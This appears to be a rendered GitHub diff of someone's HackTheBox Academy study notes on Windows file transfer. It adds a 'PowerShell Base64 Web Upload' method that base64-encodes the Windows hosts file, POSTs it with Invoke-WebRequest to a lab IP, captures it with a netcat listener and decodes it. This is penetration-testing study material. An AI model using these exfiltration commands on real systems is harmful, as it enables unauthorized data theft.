

Before and after one commit to datboyblu3/HackTheBox_Studies, a Markdown page: HTB-Academy/6-File-Transfers/Windows File Transfers Methods.md, the part around the change. Drawn GitHub-style; blank space fills up the shorter version.

Commit message:
PowerShell Base64 Web Upload

````diff
--- a/HTB-Academy/6-File-Transfers/Windows File Transfers Methods.md
+++ b/HTB-Academy/6-File-Transfers/Windows File Transfers Methods.md
@@ -208,3 +208,23 @@ Invoke-FileUpload -Uri http://192.168.49.128:8000/upload -File C:\Windows\System
 ```
 
 **PowerShell Base64 Web Upload**
+
+- Invoke-WebRequest or Invoke-RestMethod together with Netcat
+- Use Netcat to listen in on a port we specify and send the file as a POST request
+- copy the output and use the base64 decode function to convert the base64 string into a file
+```
+$b64 = [System.convert]::ToBase64String((Get-Content -Path 'C:\Windows\System32\drivers\etc\hosts' -Encoding Byte))
+```
+```
+Invoke-WebRequest -Uri http://192.168.49.128:8000/ -Method POST -Body $b64
+```
+
+Listen on port 8000
+```
+nc -lnvp 8000
+```
+
+Now decrypt the file
+```
+echo <base64> | base64 -d -w 0 > hosts
+```
````
